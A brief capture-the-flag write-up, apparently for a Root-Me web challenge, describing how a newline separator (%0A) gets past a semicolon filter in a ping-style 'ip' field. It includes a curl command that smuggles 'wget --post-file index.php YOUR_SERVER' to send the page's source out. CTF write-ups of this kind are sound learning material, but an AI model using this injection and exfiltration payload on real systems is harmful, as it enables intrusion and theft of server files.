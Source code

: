 We have already seen something like this, but a basic injection with ; does not work anymore.
We can try different separators that are used to define the separation between commands.

We see that %0A is working, we can inject new commands.

We are going to post the index.php on another website. Turning on a local server is enough.

```
curl -d 'ip=127.0.0.1 %0a wget --post-file index.php YOUR_SERVER ' -X POST "http://challenge01.root-me.org/web-serveur/ch53/index.php"
```

NOTE: This is how I did, but I now feel like this challenge is bugged, and can not reproduce this.
